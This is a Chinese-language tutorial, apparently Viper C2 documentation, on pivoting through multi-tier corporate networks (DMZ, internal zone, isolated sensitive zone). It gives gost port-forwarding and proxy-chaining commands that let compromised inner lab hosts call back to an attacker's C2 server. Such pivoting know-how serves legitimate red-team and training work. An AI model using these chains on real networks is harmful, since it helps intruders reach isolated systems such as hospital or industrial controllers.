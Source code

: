 # 多级内网渗透(gost&viper)

## 什么是多级内网
标题中所说的多级内网,常见于各种大型企业.举个例子,如下图

![](img\multi_level_intranet_penetration_gost_viper\1.webp)

A网中一般是企业的DMZ区,里面有对外的web服务器,dns服务器等.

B网中一般是企业内网的服务器区,里面有域控服务器,内网OA等.

C网中一般是企业红区,里面有敏感信息存储的数据库,或者各种关键业务服务器.(比如医院的HIS,工业企业的工业控制器等)

这种网络中,A网可以连接互联网,B网可以连接A网和C网但是无法连接互联网,C网只能连接B网.



## Viper与gost结合渗透多级内网
实验环境网络配置如下:

![](img\multi_level_intranet_penetration_gost_viper\2.webp)

+ 上线192.168.146.1

![](img\multi_level_intranet_penetration_gost_viper\3.webp)

+ 在192.168.146.1上使用gost启动一个端口转发,把192.168.146.1:2000的流量转发到192.168.146.130:2000

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000
```

![](img\multi_level_intranet_penetration_gost_viper\4.webp)

+ 146.11执行回连到146.1:2000的payload,146.11上线(可以看到是通过146.1回连的)

![](img\multi_level_intranet_penetration_gost_viper\5.webp)



+ 上线146.12比较复杂,首先在146.1:8080上用gost启动一个代理

```plain
gost.exe -L :8080
```

![](img\multi_level_intranet_penetration_gost_viper\6.webp)

+ 然后在146.11上启动端口转发,流量经过146.1:8080这个代理

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000 -F 192.168.146.1:8080
```

![](img\multi_level_intranet_penetration_gost_viper\7.webp)

+ 146.12执行回连到146.11:2000的payload,146.12上线(可以看到146.12是通过146.1回连的)

![](img\multi_level_intranet_penetration_gost_viper\8.webp)



+ 146.12的payload连接146.11的2000端口后,146.11的gost会把流量加上代理头,然后发送到146.1:8080这个代理上,146.1:8080解析代理头,最终将流量发送到146.130:2000
